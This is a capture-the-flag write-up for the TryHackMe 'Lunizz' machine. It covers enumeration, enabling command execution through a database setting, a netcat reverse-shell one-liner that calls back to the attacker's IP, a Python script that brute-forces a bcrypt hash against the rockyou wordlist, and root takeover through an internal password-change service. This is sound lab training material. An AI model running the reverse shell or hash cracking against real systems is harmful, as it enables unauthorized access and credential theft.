 # Lunizz CTF TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We scan with nmap all ports with versions and scripts, we locate two strings in base64.

![](2.png)

#### Decode strings in base64

![](2-2.png)

## Enumeration
Web service on port 80 that shows the default Apache page.

![](3.png)

We scan with nmap and the script *"http-enum"*, we will enumerate a directory called *"/hidden/"*.

![](4.png)

We access the directory and find an application that allows us to host image files. (rabbit hole)

![](5.png)

We launch the **dirsearch** tool and list a new directory.

![](6.png)

We access, we see that we have a form where it seems that it is possible to execute commands... But no, it does not work.

![](7.png)

We run **dirsearch** again, this time we will try to enumerate files by extensions. We see that we list a file named *"instructions.txt"*.

![](8.png)

We access the file and find some credentials.

![](9.png)

We use the credentials to connect to the DB, remember that the application option to execute commands was set to *"0"*, we set it to *"1"* and save.

![](10.png)

We reload the page, check that Mode is now set to *"1"* and the **"ls"** command runs perfectly and prints the files.

![](11.png)

## Exploitation
We set up a listening netcat on our kali and run our payload for a reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
#### Revers shell

![](12.png)

Doing reconnaissance, we find a file called *"bcrypt_encryption.py"*, in the Python code we see that it prints a hash with salted, also a commented hash in the script.

![](13.png)

Examining the *python* script, I split the hash into two pieces (hashed password + salt), cross-referenced it with the wordlist **rockyou** and checked if the hash matched to find out the clear password. 

#### Python script code
```python
import bcrypt
import base64

salt   = b'$2XXXXXXXXXXXXXXXXXXXX'
hashPass = b'$2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

with open("rockyou.txt","r") as f:
	for word in f.readlines():
		passw = word.strip().encode('ascii', 'ignore')
		b64str = base64.b64encode(passw)
		hashAndSalt = bcrypt.hashpw(b64str, salt)
		#print(hashAndSalt)
		#print(passw)

		if hashPass == hashAndSalt:
			print("[+] Password Found!!!: %s" % passw)
			break
```

#### Execute decrypt python script

![](14.png)

We authenticate as the user *"adam"* and see several interesting files that mention the user *"mason"*.

![](15.png)

We found a **hidden directory** with this message, apparently it is a hint to list the password for the user *"mason"*.

![](16.png)

We access the URL, there we see an image that will give us the clue without much difficulty. *(I will not show the image so as not to make spoilers)*

We use the password on the user *"mason"* and read the flag of *"user.txt"*.

![](17.png)


## Privilege Escalation

We use the script **linpeas.sh** and list that there is a web service up internally on *port 8080*.

![](18.png)

We use curl on the website, we see an application with three options, I used the *"passwd"* option and the password of the user *"mason"* which modified the password of the user *"root"*. After that, I just had to log in as root and read the flag.

![](19.png)


---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
